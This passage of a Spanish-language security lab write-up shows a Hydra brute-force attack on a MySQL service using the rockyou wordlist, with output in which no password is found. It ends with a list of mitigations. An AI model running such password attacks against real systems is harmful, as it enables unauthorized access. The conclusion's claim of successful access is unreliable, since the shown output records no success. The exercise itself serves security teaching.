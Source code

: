 Pruebo con la herramienta hydra el ataque al puerto 3306 de mysql con el diccionario de claves _rockyou.txt_ para comprobar si encontramos un par usuario/contraseña válido.

```bash
┌──(root㉿kali)-[~]
└─# hydra -L usuarios.txt -P /usr/share/wordlists/rockyou.txt mysql://198.0.2.6

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-10-12 10:36:46
[INFO] Reduced number of tasks to 4 (mysql does not like many parallel connections)
[DATA] max 4 tasks per 1 server, overall 4 tasks, 129099591 login tries (l:9/p:14344399), ~32274898 tries per task
[DATA] attacking mysql://198.0.2.6:3306/
[STATUS] 4155.00 tries/min, 4155 tries in 00:01h, 129095436 to do in 517:50h, 4 active
[STATUS] 2124.33 tries/min, 6373 tries in 00:03h, 129093220 to do in 1012:49h, 2 active
[STATUS] 1179.86 tries/min, 8259 tries in 00:07h, 129091335 to do in 1823:33h, 1 active
[ERROR] all children were disabled due too many connection errors
0 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-10-12 10:45:33
```

_*Conclusión*_: Podemos ver que algunos ataques han sido exitosos y otros no, al final tratamos de conseguir acceso a la máquina remota lo cual lo hemos logrado de diferentes modos. El objetivo sería probar todos los puertos y tratar de realizar un ataque a través de cada uno de ellos.

#### Ejercicio 4

Explique las medidas de seguridad básicas que podrían adoptarse para mitigar estas vulnerabilidades.

Para mitigar las vulnerabilidades relacionadas con los puertos abiertos detectados en la máquina 198.0.2.6 , se pueden adoptar las siguientes medidas de seguridad básicas:

1. **Actualizar y parchear el sistema y servicios:**  
   Mantener el sistema operativo Windows y los servicios asociados (RPC, SMB y MySQL) siempre actualizados con los últimos parches de seguridad oficiales para corregir vulnerabilidades conocidas.

2. **Restringir accesos mediante firewall:**  
   Configurar firewalls a nivel de host y red para limitar el acceso a los puertos 135 (RPC), 445 (SMB) y 3306 (MySQL) solo a IPs de confianza y segmentos internos autorizados. Esto reduce el riesgo de accesos no autorizados desde redes externas o no confiables.

3. **Deshabilitar o limitar servicios innecesarios:**  
   Si alguno de estos servicios no es imprescindible en el entorno, deshabilitarlo para minimizar la superficie de ataque.

4. **Uso de autenticación fuerte y cifrado:**  
   Configurar MySQL y servicios Windows para exigir contraseñas robustas autenticación multifactor si es posible, y cifrado de comunicaciones para proteger la confidencialidad e integridad de los datos.

5. **Monitoreo y alertas:**  
   Implementar mecanismos de monitoreo y análisis de logs para detectar accesos sospechosos o intentos de explotación relacionados con estos servicios.
